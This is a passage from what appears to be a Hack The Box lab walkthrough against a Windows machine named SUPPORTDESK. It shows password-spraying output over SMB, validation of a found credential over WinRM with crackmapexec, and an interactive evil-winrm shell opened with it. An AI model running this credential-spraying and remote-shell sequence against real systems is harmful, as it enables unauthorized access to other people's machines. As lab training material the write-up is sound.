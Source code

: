 ```bash
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
```

There's one another valid credential set : `Chase` : `Q4)sJu\Y8qz*A3?d`
Let's test if it's working on `winrm` with `crackmapexec`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'
SMB         10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.10.10.149    5985   SUPPORTDESK      [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```

It's working with `winrm`. So I can spawn an interactive shell with this account.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.149 -u Chase -p 'Q4)sJu\Y8qz*A3?d'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
```

